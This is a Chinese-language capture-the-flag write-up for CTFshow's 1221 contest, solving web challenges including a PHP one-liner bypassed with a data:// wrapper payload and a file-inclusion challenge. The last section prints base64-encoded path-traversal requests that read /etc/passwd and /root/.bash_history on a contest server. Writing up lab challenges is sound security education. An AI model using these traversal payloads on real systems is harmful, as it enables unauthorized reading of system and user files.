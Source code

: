 ```yaml
---
title: "CTFshow1221摆烂杯 Wp"
slug: "ctfshow-1221-bailancup-wp"
description: "桥洞底下盖小被，java？狗都不学"
date: 2021-12-28T20:06:48+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


https://ctf.show/challenges

## web签到

![image-20211224183707592](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224183707592.png)

一眼flask，简单fuzz一下发现过滤了字母 斜杠 引号 注释符 花括号 百分号 点号

没过滤的还有括号和加减乘除

```
A: 114)+(0
B: 1
C: -1
```

## 一行代码

```php
<?php
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-11-18 21:25:22
# @Last Modified by:   h1xa
# @Last Modified time: 2021-11-18 22:14:12
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/



echo !(!(include "flag.php")||(!error_reporting(0))||stripos($_GET['filename'],'.')||($_GET['id']!=0)||(strlen($_GET['content'])<=7)||(!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow"))||substr($_GET['content'],0,1)=='w'||(file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"))?$flag:str_repeat(highlight_file(__FILE__), 0);
```

现在都爱这种一行流了？

整体是三目运算符，如果前面的表达式整体为真则返回$flag，而外面又套了`!()`，所以需要括号内部为假，而又都是`||`连接，所以需要每个小括号自己都为假，挨个看看

- `$_GET['id']!=0`

给id赋值为0或者直接留空

- `strlen($_GET['content'])<=7`

content长于7

- `!eregi("ctfsho".substr($_GET['content'],0,1),"ctfshow")`

没匹配为假，则匹配为真，content=wwwwwww

- `substr($_GET['content'],0,1)=='w'`

把content改个大写

- `file_get_contents($_GET['filename'],'r') !== "welcome2ctfshow"`

用data://伪协议

payload

```
?id=0&content=Wwwwwwww&filename=data://text/plain,welcome2ctfshow
```

## 黑客网站

![image-20211224210814499](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224210814499.png)

源码提示 flag不在这个服务器上，不用扫描，不用渗透

看字符串末尾有onion，拼在一起

```
http://tyros4qws3mmbubgjqje46ncv35jaqjgeb3nqiuf23ijoj4zwasxohyd.onion
```

访问就行了捏~

## ***登陆不了

在验证码的地方有个参数，尝试文件包含

```
http://bf986069-fc4e-42a3-b09b-c966f9e17a3c.challenge.ctf.show/v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA%3d%3d
```

雀食有/etc/passwd，但是看不了/flag，看一下别的东西

```
# /root/.bash_history
/v/c?r=Li4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vLi4vcm9vdC8uYmFzaF9oaXN0b3J5
```

![image-20211224202852805](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211224202852805.png)

好吧，竟然是java，先爬了
